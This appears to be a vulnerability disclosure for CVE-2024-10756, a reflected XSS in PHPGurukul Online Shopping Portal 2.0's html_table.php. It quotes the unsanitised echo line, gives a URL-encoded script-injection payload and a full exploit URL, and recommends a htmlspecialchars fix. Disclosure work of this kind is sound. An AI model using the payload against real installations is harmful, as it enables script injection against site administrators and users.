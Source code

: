 # CVE-2024-10756 - [XSS vulnerability] found in Online Shopping Portal 2.0 - (html_table.php)

Affected Project: **Online Shopping Portal**

Exploit Author: Dimitris Chatzidimitris

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/shopping-portal-free-download/)

Version: 2.0

Updated: 06 June 2024

Vulnerable path/file: admin/assets/plugins/DataTables/media/unit_testing/templates/html_table.php

Injection parameter: `scripts`

<br />

Size: 30.5 MB

Sha256: 127e719bf4236a9140f146dd7a6ae54f2a9234b9e6f0aeda240e7a4905c6e73c

<br />

## Vulnerability Description:
The issue arises in the `$aScripts[$i]` variable that can be influenced by user input directly echoing the constructed `<script>` tag into the HTML output, including the user-controlled part within the src attribute without any sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
echo '<script type="text/javascript" language="javascript" src="../'.$aScripts[$i].'?rand='.rand().'"></script>'
```

<br />

## Injection Payload Tested:

We need to set the `scripts` to an encoded url payload to make it work:
```
%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

## Execution:

When the browser parses this, it executes the `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `html_table.php` looks like:

<br />

![html_table.php](https://i.postimg.cc/KckW2wK1/1.png)

<br />

Then we can add our payload `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E`:

```
http://localhost/shopping/admin/assets/plugins/DataTables/media/unit_testing/templates/html_table.php?scripts=%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

After submitting the url with the payload `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/kM0pXs8f/2.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
echo '<script type="text/javascript" language="javascript" src="../' . htmlspecialchars($aScripts[$i], ENT_QUOTES, 'UTF-8') . '?rand=' . rand() . '"></script>';
```

<br />

> One Click Can Change Everything: Be Secure.
